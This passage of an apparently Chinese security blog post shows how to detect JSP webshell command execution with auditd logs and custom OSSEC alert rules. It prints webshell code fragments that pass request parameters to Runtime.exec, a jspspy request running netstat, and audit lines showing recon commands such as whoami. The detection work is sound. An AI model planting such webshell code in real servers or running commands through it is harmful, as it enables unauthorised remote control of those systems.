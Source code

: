 ```
else if(Z.equals("M"))`{`String[] c=`{`z1.substring(2),z1.substring(0,2),z2`}`;Process p=Runtime.getRuntime().exec(c);
```

审计日志如下：

```
type=EXECVE msg=audit(1500273887.809:7496): argc=3 a0="/bin/sh" a1="-c" a2=6364202F7765622F70726F6A6563742F7A616F6A69617379732E6A69616E73686539392E636F6D2E636563616F707379732F636563616F707379732F3B77686F616D693B6563686F205B535D3B7077643B6563686F205B455D
```

**2）jspspy测试**

jspspy传递的参数为

```
o=shell&amp;type=command&amp;command=netstat+-antlp&amp;submit=Execute
```

所执行的程序如下：



```
String type = request.getParameter("type");
if (type.equals("command")) `{`
ins.get("vs").invoke(request,response,JSession);
out.println("&lt;div style='margin:10px'&gt;&lt;hr/&gt;");
out.println("&lt;pre&gt;");
String command = request.getParameter("command");
if (!Util.isEmpty(command)) `{`
Process pro = Runtime.getRuntime().exec(command);
BufferedReader reader = new BufferedReader(new InputStreamReader(pro.getInputStream()));
String s = reader.readLine();
```

审计日志如下：

```
type=EXECVE msg=audit(1500273958.180:7500): argc=1 a0="whoami"
```

OSSEC监控配置

OSSEC本身已经包含了auditd事件的解码规则，例如：



```
&lt;decoder name="auditd"&gt;
  &lt;prematch&gt;^type=&lt;/prematch&gt;
&lt;/decoder&gt;
.......
```

但是在RULES里面没有找到现成的规则，编辑local_rules.xml，新增



```
&lt;group name="syslog,auditd,"&gt;
  &lt;rule id="110000" level="0" noalert="1"&gt;
    &lt;decoded_as&gt;auditd&lt;/decoded_as&gt;
    &lt;description&gt;AUDITD messages grouped.&lt;/description&gt;
  &lt;/rule&gt;
  &lt;rule id="110001" level="10"&gt;
    &lt;if_sid&gt;110000&lt;/if_sid&gt;
    &lt;match&gt;EXECVE&lt;/match&gt;
    &lt;description&gt;Java execution command&lt;/description&gt;
  &lt;/rule&gt;
&lt;/group&gt;
```
